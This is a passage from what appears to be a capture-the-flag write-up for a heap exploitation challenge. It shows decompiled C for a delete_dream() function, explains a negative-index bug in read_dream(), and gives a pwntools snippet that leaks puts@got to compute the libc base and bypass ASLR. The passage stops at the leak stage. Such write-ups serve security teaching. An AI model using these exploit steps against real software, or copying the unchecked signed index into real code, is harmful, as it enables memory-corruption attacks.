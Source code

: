 ### delete_dream()
```c
void delete_dream(void)

{
  long in_FS_OFFSET;
  int index;
  undefined *chunk_ptr;
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  puts("Which dream would you like to delete?");
  index = 0;
  __isoc99_scanf(&%d,&index);
  if (INDEX < index) {
    puts("Nope, you can\'t delete the future.");
  }
  else {
    chunk_ptr = (&HEAP_PTRS)[index];
    free(chunk_ptr);
    (&HEAP_PTRS)[index] = (undefined *)0x0;
  }
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
This one just calls free on our chunk of choice.  

## Exploitation  
First thing we can do is abuse `read_dream()` and provide a negative address to get a libc leak and bypass ASLR.  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/2abf957f-6fe0-47f4-8298-adfeefd4022e)  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/2db53698-c507-4574-9b98-262358313f6f)  
So we can just input as for the -263021 dream and we will leak the address of puts.  
```python
    r = conn()

    r.sendline(b'2') #Read dream
    r.recvuntil(b'Which dream would you like to read?\n')
    r.sendline(b'-263021') # Read puts@got
    libc_leak = r.recv(6)
    libc_leak = int.from_bytes(libc_leak,'little')
    print(hex(libc_leak))

    libc.address = libc_leak - libc.sym['puts']
```
